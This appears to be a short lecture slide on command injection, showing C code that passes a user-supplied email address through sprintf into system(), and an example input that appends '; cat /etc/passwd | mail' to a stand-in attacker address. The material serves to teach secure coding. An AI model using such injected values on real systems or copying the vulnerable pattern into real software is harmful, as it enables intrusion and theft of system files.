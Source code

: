 # Command Injection

* An application inputs an email adresss from a user and writs the address to a buffer

```c
sprintf(buffer, "/bin/mail < /tmp/email %s", addr);
```

The buffer is then executed using the `system()` call

* The risk is, of course, that the user enters the following string as an email address;
* `bogus@addr.com; cat /etc/passwd | mail some@badguy.net`

#

\centering
\includegraphics[scale=.40]{images/questions.png}

\Huge \textbf{Are there any questions?}
